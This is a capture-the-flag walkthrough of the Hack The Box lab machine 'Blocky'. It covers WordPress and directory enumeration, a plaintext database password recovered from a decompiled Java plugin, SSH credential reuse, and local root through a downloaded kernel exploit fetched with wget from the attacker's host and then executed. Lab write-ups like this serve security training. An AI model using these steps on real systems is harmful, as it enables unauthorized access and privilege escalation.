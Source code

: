 # Hack The Box - Blocky

### Enumeration

First we do a standard ```nmap -sC -sV -oA 10.10.10.37```:

![image](https://user-images.githubusercontent.com/41026969/67590388-eab51800-f728-11e9-9b02-88a2df419918.png)

So we see several things:

- Port 21 is open, there's an FTP service
- Port 22 is open, there's an SSH service
- Port 80 is open, there's a Wordpress server
- Port 8192?? 

I check the FTP for anonymous login , doesn't work

Checking some default/common passwords for FTP and SSH, doesn't work

Checking out the website:

![image](https://user-images.githubusercontent.com/41026969/68036629-70dadc80-fc9c-11e9-86e6-7ce71bffc47d.png)

We see that it's a wordpress website for a minecraft server.

To do some further enumeration, I do a wordpress scan:

The first command I do is: ```wpscan --url 10.10.10.37 --enumerate u``` this scans the address and enumerates/finds users. Here's what it resulted in:

```
[+] Enumerating usernames ...
[+] Identified the following 1 user/s:
    +----+-------+---------+
    | Id | Login | Name    |
    +----+-------+---------+
    | 1  | notch | Notch – |
    +----+-------+---------+
```

Cool, we find one user: notch

Doing a similar scan for plugins (to find a potential outdated plugin that can be exploited): ```wpscan --url 10.10.10.37 --enumerate p```

```
[+] We found 1 plugins:

[+] Name: akismet - v3.3.2
 |  Last updated: 2019-04-29T18:18:00.000Z
 |  Location: http://10.10.10.37/wp-content/plugins/akismet/
 |  Readme: http://10.10.10.37/wp-content/plugins/akismet/readme.txt
[!] The version is out of date, the latest version is 4.1.1
```

Not sure if that can be useful, just going to keep that in the back pocket.

Poking arond the wordpress site, I can't find anything interesting so next I do a dirb scan to see if I can find some interesting directories or files. I add a ```-r``` at the end because when I initially did it without, the recursive enumeration was taking too long so adding the ```-r``` makes it not recusively search:

```
dirb http://10.10.10.37 -r
```

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Nov  1 12:39:50 2019
URL_BASE: http://10.10.10.37/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.37/ ----
+ http://10.10.10.37/index.php (CODE:301|SIZE:0)                                                                                                              
==> DIRECTORY: http://10.10.10.37/javascript/                                                                                                                 
==> DIRECTORY: http://10.10.10.37/phpmyadmin/                                                                                                                 
==> DIRECTORY: http://10.10.10.37/plugins/                                                                                                                    
+ http://10.10.10.37/server-status (CODE:403|SIZE:299)                                                                                                        
==> DIRECTORY: http://10.10.10.37/wiki/                                                                                                                       
==> DIRECTORY: http://10.10.10.37/wp-admin/                                                                                                                   
==> DIRECTORY: http://10.10.10.37/wp-content/                                                                                                                 
==> DIRECTORY: http://10.10.10.37/wp-includes/                                                                                                                
+ http://10.10.10.37/xmlrpc.php (CODE:405|SIZE:42)                                                                                       ----------------
END_TIME: Fri Nov  1 12:41:18 2019
DOWNLOADED: 4612 - FOUND: 3
```
Checking through each of the directories and files, we eventually come across ```http://10.10.10.37/plugins/```... Going to this directory reveals a couple interesting files:

![image](https://user-images.githubusercontent.com/41026969/68041797-b7820400-fca7-11e9-99a5-1896042c801a.png)

If you're not familiar with what a .jar file, it's basically a zip file with Java files in it. 

We can unzip the files to see what is inside it by doing ```unzip BlockCore.jar```. This extracts two directories: ```com``` and ```META-INF```. 

Going into the ```com``` directory, there's another directory called ```myfirstplugin```, going into that directory there's a java file: ```BlockyCore.class``` (A .class file is essentially compiled java code). If we want to see what this class contains, we need to decompile this file... 

### Exploitation

The java decompiler I use is [jd-gui](https://github.com/java-decompiler/jd-gui). On the github link, there's instructions on how to install/run the program. 

Upon running the pgoram, it brings up a GUI in which we can drag and drop the ```BlockyCore.class``` file to see the decompiled code. Doing so will give us the following code:

![image](https://user-images.githubusercontent.com/41026969/68055072-3dad4300-fcc6-11e9-8221-44a76c3cae54.png)

We see there's credentials stored in plaintext:

```
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

Trying to logon as root on the FTP and SSH services yields no results. So referring to the wordpress enumeration scans from above, we see there's a user we can try this password on: ```notch```.

Checking against ssh: ```ssh -l notch 10.10.10.37``` and typing in the password, we get a shell!

Doing a ```id``` check reveals we are user notch.

Looking around the server we see there's a ```/root``` directory but trying to get into it we get access denied.

##### Privilege Escalation 

Since we have a user shell, we can still do some more enumeration to find out more about the server:

Reading the OS version file by doing ```cat /etc/os-release``` spits out:

```
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

Doing one more check by doing ```hostnamectl``` tells us:

```
   Static hostname: Blocky
         Icon name: computer-vm
           Chassis: vm
        Machine ID: b927797b27465e4b27172dd35958fd55
           Boot ID: 3ec0cf7c85424f03b77ab68129ff2d54
    Virtualization: vmware
  Operating System: Ubuntu 16.04.2 LTS
            Kernel: Linux 4.4.0-62-generic
      Architecture: x86-64

```

Doing some research I come across [this exploit-db exploit](https://www.exploit-db.com/exploits/44298). 

I download the c file, and compile using ```gcc```. Next, I need to get the .exe file on the victim machine. To do so, I use python's SimpleHTTPServer and wget to do so. Here are the instructions I did.

1. In the directory where the exe file is (on the host computer), I do ```pythom -m SimpleHTTPServer```

![image](https://user-images.githubusercontent.com/41026969/68057294-d7c3ba00-fccb-11e9-967d-1c62bfbe77d1.png)

2. Now on the host machine (in notch home directory, somewhere we have read/write/execute permissions), I do ```wget [IP]:8000/44298```. ```8000``` is the port number that the SimpleHTTPServer is being hosted on, and ```44298``` is the executable file. Doing so correctly, the shell running the SimpleHTTPServer should output a ```GET``` request from the victim IP ```10.10.10.37```. 

3. Now that we got the executable on the remote machine, we need to give it permission to execute: ```chmod +x 44298```.

Below is steps two and three being shown:

![image](https://user-images.githubusercontent.com/41026969/68057677-08582380-fccd-11e9-9d48-636ff233cd97.png)

Now all we have to do is run the executable ```./44298```:

![image](https://user-images.githubusercontent.com/41026969/68057728-30478700-fccd-11e9-9cf0-29ad480e7aff.png)

### Flags

user: ```/home/notch/user.txt```

root: ```/root/root.txt ```
